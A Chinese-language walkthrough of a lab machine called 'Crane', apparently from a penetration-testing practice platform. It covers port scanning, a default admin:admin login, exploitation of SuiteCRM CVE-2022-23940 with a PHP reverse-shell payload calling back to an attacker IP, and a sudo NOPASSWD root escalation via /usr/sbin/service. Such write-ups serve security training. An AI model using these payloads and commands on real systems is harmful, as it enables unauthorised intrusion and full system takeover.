 ```yaml
---
description: Easy - Linux / SuiteCRM 7.12.3 / CVE-2022-23940 / NOPASSWD提权
---
```


# ✔️ Crane

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到4个端口：22 / 80 / 3306 / 33060

```bash
nmap -sC -sV -p- -oA crane 192.168.178.146 --open 
```

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

* 检查80端口上的内容，尝试弱口令成功：**admin : admin**

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

* 并查询到了当前正在运行的程序SuiteCRM的版本号：**v7.12.3**

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

* 查看/robots.txt文件，返现一个名为 **/ical\_server.php** 的php文件，将其下载到本地：

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据当前已知的程序及其版本号**SuiteCRM 7.12.3**，搜索到了公开的已知漏洞可以利用：**CVE-2022-23940**

<figure><img src="../../.gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 下载该脚本，并执行：

```bash
python3 exploit.py -h http://192.168.178.146 -u admin -p admin --payload "php -r '\$sock=fsockopen(\"192.168.45.240\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'" 

nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

### Get Shell

* 成功获取到shell：

<figure><img src="../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单手动枚举，发现 **/usr/sbin/service**程序不需要密码即可以root身份运行：

```bash
sudo -l
```

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 直接利用该程序进行提权：

```bash
sudo /usr/sbin/service ../../../../../bin/bash
```

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>
